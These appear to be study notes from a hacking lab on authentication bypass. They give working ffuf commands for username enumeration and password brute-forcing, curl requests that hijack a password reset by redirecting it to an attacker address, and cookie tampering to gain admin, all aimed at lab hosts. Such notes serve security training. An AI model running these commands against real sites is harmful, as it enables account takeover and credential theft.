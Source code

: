 ### *Username Enumeration*
Find a sign up/register page, register a user and take note of the response. Copy as a curl command in Burp suite. Use ffuf to enumerate usernames. 
```
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.207.177/customers/signup -mr "username already exists"
```

Create a list of usernames from the output. Copy as a curl command in Burp suite. Use ffuf to brute force each username with a list of passwords.
```
ffuf -w usernames.txt:W1,/opt/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.207.177/customers/login -fc 200
```
### *Password reset logic flaw*
This password reset POST request contains a vulnerability where the PHP [`$_REQUEST` variable](https://www.php.net/manual/en/reserved.variables.request.php) contains data from the query string and POST data.

This is a normal password reset POST request. The PHP code is checking for the correct email in the query parameter, and the correct email in the body.
```
curl 'http://10.10.204.130/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```

Because there are no checks for the POST data, you can replace the email with a malicious one. 
```
curl 'http://10.10.204.130/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

This website will generate a support ticket for password resets, you would of found this by creating your own account and taking notes of the password reset logic. Now create a malicious account, and use the website's generated email address to issue a password reset for the victim from within your malicious account.
```
curl 'http://10.10.204.130/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```
### *Cookie tampering*
Change the values of cookies to arbitrary values, as an example, logging a user in, and becoming admin. A site will not have a `/cookie-test` page, try reaching protected pages with different cookie values, you can find protected pages as a public user not signed in, check for errors, redirects, etc...
```
┌─[]─[parrot@parrot]─[~]
└──╼ [★]$ curl -H "Cookie: logged_in=true; admin=false" http://10.10.204.130/cookie-test
Logged In As A User

┌─[]─[parrot@parrot]─[~]
└──╼ [★]$ curl -H "Cookie: logged_in=true; admin=truee" http://10.10.204.130/cookie-test
Logged In As A User

┌─[]─[parrot@parrot]─[~]
└──╼ [★]$ curl -H "Cookie: logged_in=true; admin=true" http://10.10.204.130/cookie-test
Logged In As An Admin
```

Some cookies will be stored as a hash, which is an irreversible, although they can be cracked using software such as https://crackstation.net.

|                     |                 |                                                                                                                                  |
| ------------------- | --------------- | -------------------------------------------------------------------------------------------------------------------------------- |
| **Original String** | **Hash Method** | **Output**                                                                                                                       |
| 1                   | md5             | c4ca4238a0b923820dcc509a6f75849b                                                                                                 |
| 1                   | sha-256         | 6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b                                                                 |
| 1                   | sha-512         | 4dff4ea340f0a823f15d3f4f01ab62eae0e5da579ccb851f8db9dfe84c58b2b37b89903a740e1ee172da793a6e79d560e5f7f9bd058a12a280433ed6fa46510a |
| 1                   | sha1            | 356a192b7913b04c54574d18c28d46e6395428ab                                                                                         |
